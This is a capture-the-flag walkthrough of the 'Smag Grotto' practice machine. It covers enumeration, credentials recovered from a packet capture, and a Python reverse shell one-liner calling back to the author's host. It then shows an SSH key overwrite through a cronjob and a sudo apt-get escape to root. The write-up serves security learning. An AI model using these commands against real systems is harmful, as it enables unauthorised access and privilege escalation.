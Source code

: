 # Smag Grotto

10 July 2021

---

## Index
- [Enumeration]()
- []()
- []()

---

```bash
export IP=10.10.94.23
```

### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
```

Ports:
```
22 ssh
80 http
```

Now enumerating the website with:

```bash
$ gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .txt,.php,.html -o gobuster/dir_med_ini.txt
```

We notice a strange directory `/mail/` which has a wireshark capture file that is downloadable for us to explore.
Analysing the packet we notice two major things.
* Firstly, a hostname `development.smag.thm`
* Secondly, user credentials with which to login with

`helpdesk:cH4nG3M3_n0w`

Adding the hostname to `/etc/hosts` and using those credentials to login with, and are greeted with a splash page with the ability to send commands.

![splashpage](./.assets/splashpage.png)

Initially, I tried `whoami` and `ls` but no output was returned. I then opened tcpdump.

```bash
$ tcpdump -i utun1 icmp
```

And I could receive pings! But I couldn't access the commands anymore and it was stuck pinging me. So after restarting the machine I set about creating a reverse shell with which I could access the box.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.5.34",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I now had a shell to access the machine with and we can begin enumerating the machine to escalate priviledges. I kicked off with good old linpeas.
It quickly found a cronjob which would concatenate a backup of jake's public ssh key to his `.ssh/` folder. We can generate a new ssh key pair and overwrite the public one with ours and log in with our newly generated ssh key

```bash
$ ssh-keygen -f jake
```

And now we wait for the cronjob to overwrite the file...
And one minute of waiting later, we can now login in as jake! And grab the user flag too.

Now we check for sudo permissions and notice that we can `sudo apt-get` without need of a password. 

![sudo apt-get](./.assets/sudo_perms.png)

Consulting gtfobins, we can run:

```bash
$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

To escalate priviledges! And nab the root flag!

And we are _**complete!**_

Enjoyable and straight-forward room.

![smag grotto](./.assets/smag_grotto.png)
